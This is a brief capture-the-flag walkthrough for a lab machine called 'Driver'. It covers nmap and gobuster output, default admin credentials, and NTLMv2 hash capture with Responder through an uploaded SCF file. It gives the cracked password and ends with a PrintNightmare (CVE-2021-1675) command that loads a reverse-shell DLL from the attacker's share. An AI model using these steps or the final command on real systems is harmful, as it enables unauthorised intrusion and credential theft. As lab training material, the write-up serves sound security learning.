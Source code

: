 # Driver
by phoenix
12.12.2021


$IP=10.10.11.106

# NMAP
```
nmap -sC -sV -oA nmap/initial 10.10.11.106
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-14 15:29 EET
Nmap scan report for 10.10.11.106
Host is up (0.053s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2021-12-14T20:29:22
|_  start_date: 2021-12-14T17:05:31
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 7h00m02s, deviation: 0s, median: 7h00m02s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.44 seconds
```

Web server on port 80 using default admin credentials:
`admin:admin`

# gobuster
```
/images               (Status: 301) [Size: 150] [--> http://10.10.11.106/images/]
/index.php            (Status: 401) [Size: 20]                                   
/Images               (Status: 301) [Size: 150] [--> http://10.10.11.106/Images/]
/Index.php            (Status: 401) [Size: 20]                                   
/IMAGES               (Status: 301) [Size: 150] [--> http://10.10.11.106/IMAGES/]
/INDEX.php            (Status: 401) [Size: 20]  
```

# Use Responder to get user NTLMv2 hash after uploading the @driver.scf file onto the server

# Crack the NTLMv2 hash with john

tony:liltony

# Getting system
Create reverse shell dll payload with msfvenom and put on share with smbd.
Use impacket https://github.com/cube0x0/CVE-2021-1675 to upload the rev shell and get system shell
`python3 CVE-2021-1675.py driver/tony:liltony@10.10.11.106 '\\10.10.14.67\driver\cve.dll'`